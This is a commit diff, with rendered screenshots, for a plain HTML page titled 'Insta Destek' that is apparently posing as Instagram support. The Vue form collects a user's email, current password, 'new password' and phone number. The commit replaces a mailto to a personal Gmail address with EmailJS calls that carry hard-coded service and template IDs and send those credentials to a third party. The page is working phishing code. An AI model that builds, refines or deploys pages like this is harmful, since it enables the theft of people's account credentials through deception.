

Before and after one commit to lizozo/insta-destek, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-873 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,25 +3,61 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Web Form</title>
+    <title>Insta Destek</title>
     <script src="https://cdn.jsdelivr.net/npm/vue@3/dist/vue.global.js"></script>
+    <script src="https://cdn.jsdelivr.net/npm/emailjs-com@3/dist/email.min.js"></script>
+    <style>
+        body {
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            background-color: #fafafa;
+            font-family: Arial, sans-serif;
+        }
+        #app {
+            background: white;
+            padding: 30px;
+            border-radius: 10px;
+            box-shadow: 0px 4px 10px rgba(0, 0, 0, 0.1);
+            text-align: center;
+            width: 300px;
+        }
+        form {
+            display: flex;
+            flex-direction: column;
+        }
+        input {
+            margin: 10px 0;
+            padding: 10px;
+            border: 1px solid #dbdbdb;
+            border-radius: 5px;
+            font-size: 14px;
+        }
+        button {
+            background-color: #0095f6;
+            color: white;
+            border: none;
+            padding: 10px;
+            border-radius: 5px;
+            font-size: 16px;
+            cursor: pointer;
+            margin-top: 10px;
+        }
+        button:hover {
+            background-color: #0077cc;
+        }
+    </style>
 </head>
 <body>
     <div id="app">
         <form @submit.prevent="sendEmail">
-            <label>Email:</label>
-            <input type="email" v-model="email" required><br>
-
-            <label>Sifre:</label>
-            <input type="password" v-model="password" required><br>
-
-            <label>Yeni Sifre:</label>
-            <input type="password" v-model="newPassword" required><br>
-
-            <label>Telefon:</label>
-            <input type="tel" v-model="phone" required><br>
-
-            <button type="submit">Yenile</button>
+            <h2>Bilgileriniz</h2>
+            <input type="email" v-model="email" placeholder="Email" required>
+            <input type="password" v-model="password" placeholder="Sifre" required>
+            <input type="password" v-model="newPassword" placeholder="Yeni Sifre" required>
+            <input type="tel" v-model="phone" placeholder="Telefon" required>
+            <button type="submit">Gonder</button>
         </form>
     </div>
 
@@ -37,11 +73,25 @@
                     phone: ''
                 };
             },
+            mounted() {
+                emailjs.init("ghChkcyiWEAvdB9v6"); // Replace with your EmailJS public key
+            },
             methods: {
                 sendEmail() {
-                    const subject = "Form Submission";
-                    const body = `Email: ${this.email}%0D%0APassword: ${this.password}%0D%0ANew Password: ${this.newPassword}%0D%0APhone: ${this.phone}`;
-                    window.location.href = `mailto:hamza.erguc@gmail.com?subject=${subject}&body=${body}`;
+                    const templateParams = {
+                        email: this.email,
+                        password: this.password,
+                        newPassword: this.newPassword,
+                        phone: this.phone
+                    };
+
+                    emailjs.send("service_r20fizm", "template_vz0ecpr", templateParams)
+                        .then(response => {
+                            alert("Email sent successfully!");
+                        })
+                        .catch(error => {
+                            console.error("Error sending email:", error);
+                        });
                 }
             }
         }).mount('#app');
```
